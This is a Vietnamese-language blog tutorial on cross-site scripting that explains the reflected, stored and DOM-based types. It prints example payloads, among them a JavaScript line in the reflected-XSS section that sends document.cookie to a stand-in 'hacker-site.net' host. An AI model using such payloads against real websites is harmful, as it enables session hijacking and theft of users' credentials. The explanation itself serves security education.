 ```yaml
---
layout: post
title: Cross Site Scripting - XSS Attack
description: "Attack Method: XSS (Cross Site Scripting)"
headline: 
modified: 2018-02-13
category: network
tags: [XSS]
imagefeature: cover/network/001.jpg
mathjax:
chart:
share: true
# comments: true
# featured: true
highlight: true
---
```


Attack Method: XSS (Cross Site Scripting)

Language: Vietnamese

## XSS - Cross-Site Scripting
Cross-Site Scripting (XSS) là một trong những kĩ thuật tấn công phổ biến nhất hiên nay, đồng thời nó cũng là một trong những vấn đề bảo mật quan trọng đối với các nhà phát triển web và cả những người sử dụng web. Bất kì một website nào cho phép người sử dụng đăng thông tin mà không có sự kiểm tra chặt chẽ các đoạn mã nguy hiểm thì đều có thể tiềm ẩn các lỗi XSS.

### Giới thiệu
Cross-Site Scripting hay còn được gọi tắt là XSS (thay vì gọi tắt là CSS để tránh nhầm lẫn với CSS-Cascading Style Sheet của HTML) là một kĩ thuật tấn công bằng cách chèn vào các website động (ASP, PHP, CGI, JSP …) những thẻ HTML hay những đoạn mã script nguy hiểm có thể gây nguy hại cho những nạn nhân sử dụng.

### Cách hoạt động
Lỗi này xảy ra khi ứng dụng web thu nhận các dữ liệu nguy hiểm được nhập từ hacker. Một website thường chứa các link, thông qua các link này hacker có thể chèn các đoạn code vào và khi người dùng nào đó sử dụng link này thì coi như 99% là chết, hacker có thể thông qua lỗi này để chèn code vào site hay link để lấy các thông tin quan trọng từ nạn nhân

Phụ thuộc vào mục đích của hacker, những đoạn Javascript được chèn vào để lấy những thông tin như:

+ Cookie: hacker có thể lấy được cookie của người dùng và dùng những thông tin trong cookie để giả mạo phiên truy cập hoặc lấy những thông tin nhạy cảm khác được lưu trong cookie.
+ Keylogging: hacker có thể ghi lại những thao tác gõ phím của người dùng bằng cách sử dụng sự kiện trong Javascript và gửi tất cả những thao tác gõ phím đó về cho hắn để thực hiện những mục đích như đánh cắp các thông tin nhạy cảm, lấy mật khẩu truy cập website hoặc mã số thẻ tín dụng…
+ Phishing: hacker có thể thay đổi giao diện của website bằng cách thay đổi cấu trúc HTML trong trang web để đánh lừa người dùng. Hacker có thể tạo ra những form đăng nhập giả nhằm lừa người dùng đăng nhập vào để đánh cắp mật khẩu.

Sau đó các thông tin này được gửi tới cho hacker . Cách thường dùng của hacker là mã hoá các phần nguy hiểm của link ( đã chèn code) thành kiểu HEX ( hoặc có thể là các hình thức khác ) để làm cho nạn nhân ít nghi ngờ khi click vào cái link nguy hiểm đó . Sau đó là tìm cách nào đó để cho nạn nhân chịu click vào cái link đó.

Hầu hết các ứng dụng web hiện nay dùng cookie để kết hợp 1 tài khoản duy nhất cho 1 người dùng nào đó , nghĩa là cookie của người nào người đó dùng . Các webmail , web bán hàng , nhà băng , … đa số đều dùng cookie với mục đích chứng thực ngừơi dùng , và đây là cái mà hacker cần.

### Vi dụ
Ví dụ url có chứp đoạn mã script
```html
 http://www.example.com/search.cgi?query=<script>alert(‘Website đang bị lỗi XSS!’);</script>.
```
Xuất hiện alert => bị lỗ hổng XSS

## Phân loại XSS
Phân loại: Có 3 loại Reflected XSS, Stored XSS và DOM-based XSS

### Reflected XSS
Ở kịch bản này, hacker sẽ gửi cho nạn nhân một URL có chứa đoạn mã nguy hiểm. Nạn nhân chỉ cần gửi request đến URL này thì hacker sẽ có được kết quả mong muốn. Cụ thể:
1. Người dùng đăng nhập web và giả sử được gán session: 
```
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
```
2. Bằng cách nào đó, hacker gửi được cho người dùng URL:
```
http://example.com/name=var+i=new+Image;+i.src=”http://hacker-site.net/”%2bdocument.cookie;
```
Giả sử `example.com` là website nạn nhân truy cập, `hacker-site.net` là trang của hacker tạo ra
3. Nạn nhân truy cập đến URL trên
4. Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request(đoạn javascript của hacker)
5. Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript
6. Đoạn javascript mà hacker tạo ra thực tế như sau: 
```js
var i = new Image; i.src = 'http://hacker-site.net/' + document.cookie;
```
Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:
```
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
```
7. Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng sẽ bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.

### Stored XSS
Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn. Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu (ở đây tôi dùng khái niệm này để chỉ database, file hay những khu vực khác nhằm lưu trữ dữ liệu của ứng dụng web). Ví dụ như các form góp ý, các comment … trên các trang web.

Với kỹ thuật Stored XSS , hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.
+ Đầu tiên hacker sẽ thông qua các điểm đầu vào (form, input, textarea…) không được kiểm tra kỹ để chèn vào CSDL các đoạn mã nguy hiểm.
+ Tiếp theo, khi người dùng truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn mã của hacker sẽ được thực thi trên trình duyệt người dùng.

### DOM Based XSS
DOM Based XSS là kỹ thuật khai thác XSS dựa trên việc thay đổi cấu trúc DOM của tài liệu, cụ thể là HTML. Chúng ta cùng xem xét một ví dụ cụ thể sau.

Một website có URL đến trang đăng ký như sau:
```
http://example.com/register.php?message=Please fill in the form
```

Khi truy cập đến thì chúng ta thấy một Form rất bình thường. Tuy nhiên nếu đổi thành
```
http://example.com/register.php?message=<label>Gender</label><div class="col-sm-4">MaleFemale</div>function show(){alert();}
```
Người dùng sẽ chẳng chút nghi ngờ với một form “bình thường” như thế này, và khi lựa chọn giới tính, Script sẽ được thực thi


## Tham khảo


[https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html](https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html)

[https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/](https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/)